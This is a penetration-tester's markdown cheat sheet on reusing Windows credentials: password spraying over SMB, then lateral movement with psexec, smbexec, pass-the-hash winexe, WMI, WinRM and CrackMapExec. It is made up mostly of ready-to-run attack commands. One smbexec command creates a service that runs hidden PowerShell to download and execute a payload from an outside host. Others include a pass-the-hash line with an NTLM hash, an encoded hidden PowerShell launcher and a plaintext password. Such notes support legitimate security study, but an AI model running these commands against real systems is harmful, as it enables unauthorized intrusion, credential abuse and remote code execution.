 # Using Credentials

## Password Spraying
- `auxiliary/scanner/smb/smb_login`
- Send the same credentials to all hosts listening on 445
    - `msf auxiliary(smb_login) > services -p 445 -R`
- Can do same with `CrackMapExec` for a subnet: https://github.com/byt3bl33d3r/CrackMapExec
- Can use following command to explore:
```
net use \\machine-name /user:username@domainname passwords
dir \\machine-name\c$
net use
```
- Can be detected by using `net session`
- Can terminate all session with `net use /delete *`
- Some commands, such as `net view` use the login user-name. .: use `runas`
```
runas /netonly /user:user@domainname "cmd.exe"
net view \\machine-name /all
```
- Verify it uses Kerberos by `klist`

## Get shells

### psexec
- `auxiliary/admin/smb/psexec`
- `auxiliary/admin/smb/psexec_comman`
- psexec.py - https://github.com/CoreSecurity/impacket

```
PsExec is a light-weight telnet-replacement that lets you execute processes on other systems, complete with full interactivity for console applications, without having to manually install client software
```
```
\\machinename -u user@domainname -p password cmd.exe
```
- `-s` to get `SYSTEM` shell
- Use runas to use Kerberos TGT and avoid giving password:
```
runas /netonly /user:user@domainname PsExec.exe \\machinename -u user@domainname  cmd.exe
```

Manual Operation
- Copy a binary to the ADMIN$ share over SMB (`C:\Windows\PSEXECSVC.exe.`)
    - `copy example.exe \\machine\ADMIN$`
- Create a service on the remote matching pointing to the binary
    - `sc \\machine create serviceName binPath="c:\Windows\example.exe"`
- Remotely start the service
    - `sc \\machine start serviceName`
- When exited, stop the service and delete the binary
    - `del \\machine\ADMIN$\example.exe`

### smbexec.pp
- Stealthier (does not drop a binary)
- Creates a service
- Service File Name contains a command string to execute (%COMSPEC% points to the absolute path of cmd.exe)
- Echos the command to be executed to a bat file, redirects the stdout and stderr to a Temp file, then executes the bat file and deletes it.
- Creates a log entry for each command.
-
```
Use Metasploit web_delivery to send script

sc \\machine create serviceName binPath="powershell.exe -nop -w hidden -c $k=new-object net.webclient;$k.proxy=[Net.WebRequest]::GetSystemWebProxy();$k.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $k.downloadstring('http://10.9.122.8:8080/AZPLhG9txdFhS9n');"
sc \\machine start serviceName
```

### Winexe
- https://sourceforge.net/projects/winexe/

#### Pass the hash
```
pth-winexe
-U jeeves/Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
//10.10.10.63 cmd
```

### wmiexec.py
- Windows Management Instrumentation (WMI) to launch a semi-interactive shell.
- WMI is the infrastructure for management data and operations on Windows (like SNMP).
```
wmic computerystem list full /format:list  
wmic process list /format:list  
wmic ntdomain list /format:list  
wmic useraccount list /format:list  
wmic group list /format:list  
wmic sysaccount list /format:list  
```
- https://techcommunity.microsoft.com/t5/Ask-The-Performance-Team/Useful-WMIC-Queries/ba-p/375023
- https://windowstech.net/wmic-commands/
- Can query remotely.
- Logging for WMI events is disabled by default: https://msdn.microsoft.com/en-us/library/windows/desktop/aa826686(v=vs.85).aspx
```
wmic
wmic> /node:"machinename" /user:"username" computerystem list full /format:list
```
- Local admins on a remote machine
```
wmic /node:ordws01 path win32_groupuser where (groupcomponent="win32_group.name=\"administrators\",domain=\"ORDWS01\"")  
```
- Who is logged-in: `wmic /node:ordws01 path win32_loggedonuser get antecedent`
- Read nodes from text file: `wmic /node:@workstations.txt path win32_loggedonuser get antecedent  `
- Execute command:
```
powershell.exe -NoP -sta -NonI -W Hidden -Enc JABXAEMAPQBOAEUAVwAtAE8AQgBKAGUAQw...truncated...  
```
```
wmic /node:ordws01 /user:CSCOU\jarrieta path win32_process call create "**empire launcher string here**"  
```
- Used in:
    - https://github.com/samratashok/nishang
    - https://github.com/PowerShellMafia/PowerSploit
    - CrackMapExec
    - wmiexec.py
    - wmis

### Windows Remote Management (WinRM)
- 5985/tcp (HTTP) / 5986/tcp (HTTPS)
- Allows remote management of Windows machines over HTTP(S) using SOAP.
- On the backend it's utilizing WMI.
- Enable: `Enable-PSRemoting -Force Set-Item wsman:\localhost\client\trustedhosts *`
- Test if target is configured for WinRM: `Test-WSMan machinename`
- Execute command: `Invoke-Command -Computer ordws01 -ScriptBlock {ipconfig /all} -credential CSCOU\jarrieta  `
    - Command line: `Enter-PSSession -Computer ordws01 -credential CSCOU\jarrieta `
- Force enabling WinRM:
```
PS C:\tools\SysinternalsSuite> .\PsExec.exe \\ordws04 -u cscou\jarrieta -p nastyCutt3r -h -d powershell.exe "enable-psremoting -force"  
```

### CrackMapExec
- "-x" parameter to send commands.
- wmiexec.py across multiple IPs

### Using Remote Desktop
- Impacket's rdp_check to see if you have RDP access,
- Then use Kali's rdesktop to connect:


## References
> - https://blog.ropnop.com/using-credentials-to-own-windows-boxes/
